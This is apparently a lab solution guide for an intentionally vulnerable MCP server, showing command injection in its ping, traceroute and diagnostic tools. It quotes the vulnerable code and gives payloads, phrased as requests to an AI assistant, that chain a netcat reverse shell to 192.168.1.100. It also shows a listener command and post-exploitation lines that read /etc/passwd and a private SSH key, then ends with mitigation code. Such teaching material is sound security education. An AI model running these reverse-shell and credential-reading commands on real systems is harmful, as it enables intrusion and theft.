# Challenge 9: Remote Access Control - Solution Guide

## Vulnerability

This challenge demonstrates a remote access control vulnerability in an MCP server. The MCP server passes unvalidated input to system commands, allowing attackers to gain remote access to the victim's system.

## Solution

### Step 1: Reconnaissance

First, explore the server to understand what resources and tools are available:

1. Connect to the server at http://localhost:8009 using an MCP client
2. Examine the available resources and tools
3. Notice that there's a resource for network information (`network://info`) and tools for network diagnostics (`ping_host`, `traceroute`, `port_scan`, `network_diagnostic`, and `view_network_logs`)

### Step 2: Identify the Vulnerability

The vulnerability is in multiple tools that pass unvalidated input directly to shell commands:

1. The `ping_host` tool passes user input directly to a shell command:

```python
# VULNERABILITY: This tool passes user input directly to a shell command
# without proper validation, allowing command injection

# Vulnerable command construction
command = f"ping -c {count} {host}"

# Execute the command
result = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
```

2. The `traceroute` tool has a similar vulnerability:

```python
# VULNERABILITY: This tool passes user input directly to a shell command
# without proper validation, allowing command injection

# Vulnerable command construction
command = f"traceroute {host}"
```

3. The `network_diagnostic` tool is extremely vulnerable as it allows specifying additional options:

```python
# VULNERABILITY: This tool passes user input directly to a shell command
# and even allows specifying additional options, making command injection trivial

# Construct the diagnostic command
# This is EXTREMELY vulnerable as it directly passes user input to the shell
# including arbitrary options
command = f"./network_diagnostic.sh {target} {options}"
```

### Step 3: Exploit the Vulnerability

There are multiple ways to exploit this vulnerability to gain remote access:

#### Method 1: Command injection with the `ping_host` tool

Use the `ping_host` tool with command injection to execute arbitrary commands:

```
Please ping the host "localhost; nc -e /bin/bash 192.168.1.100 4444" using the ping_host tool.
```

This will first ping localhost, then execute the netcat command to establish a reverse shell to the attacker's machine at 192.168.1.100 on port 4444.

#### Method 2: Command injection with the `network_diagnostic` tool

Use the `network_diagnostic` tool with command injection in the options parameter:

```
Please run a network diagnostic on "localhost" with options "; nc -e /bin/bash 192.168.1.100 4444" using the network_diagnostic tool.
```

This will execute the network diagnostic on localhost, then execute the netcat command to establish a reverse shell.

### Step 4: Set Up a Listener on the Attacker's Machine

On the attacker's machine, set up a listener to receive the reverse shell:

```
nc -lvp 4444
```

### Step 5: Execute the Exploit

Execute one of the exploit methods above. If successful, the victim's server will connect back to the attacker's machine, providing a shell with the permissions of the user running the MCP server.

### Step 6: Access Sensitive Information

Once you have shell access, you can explore the system and access sensitive information:

```
# List files in the current directory
ls -la

# View sensitive files
cat /etc/passwd
cat /home/user/.ssh/id_rsa

# Search for configuration files
find / -name "*.conf" -type f 2>/dev/null
```

## Mitigation Strategies

To prevent remote access control vulnerabilities:

1. **Validate and sanitize user input**: Implement strict validation for all user inputs that will be used in shell commands.

2. **Use allowlists for command parameters**: Define a specific set of allowed parameters rather than accepting arbitrary input.

3. **Avoid using shell=True**: When using subprocess functions, avoid setting shell=True to prevent shell injection.

4. **Use safer alternatives**: Instead of passing input to shell commands, use language-specific libraries or APIs.

5. **Implement proper error handling**: Ensure that error messages don't leak sensitive information.

Example of improved code for the `ping_host` tool:

```python
def ping_host(host: str, count: int = 4) -> str:
    """Ping a host to check connectivity."""
    try:
        # Validate input
        if not is_valid_hostname_or_ip(host):
            return "Error: Invalid hostname or IP address."
        
        if not (0 < count <= 10):
            return "Error: Count must be between 1 and 10."
        
        # Use a safer approach without shell=True
        result = subprocess.check_output(
            ["ping", "-c", str(count), host],
            stderr=subprocess.STDOUT
        )
        
        return f"Ping result:\n\n{result.decode()}"
    except subprocess.CalledProcessError as e:
        return f"Error executing ping: {e.output.decode()}"
    except Exception as e:
        return f"Error: {str(e)}"

def is_valid_hostname_or_ip(host: str) -> bool:
    """Validate if the input is a valid hostname or IP address."""
    # Implement proper validation logic
    # This is a simplified example
    import re
    
    # Check if it's a valid IP address
    ip_pattern = r'^(\d{1,3}\.){3}\d{1,3}$'
    if re.match(ip_pattern, host):
        # Validate each octet
        octets = host.split('.')
        return all(0 <= int(octet) <= 255 for octet in octets)
    
    # Check if it's a valid hostname
    hostname_pattern = r'^[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?(\.[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?)*$'
    return bool(re.match(hostname_pattern, host))
```

This improved implementation:
1. Validates that the host is a valid hostname or IP address
2. Uses subprocess without shell=True to prevent shell injection
3. Provides clear error messages for invalid input
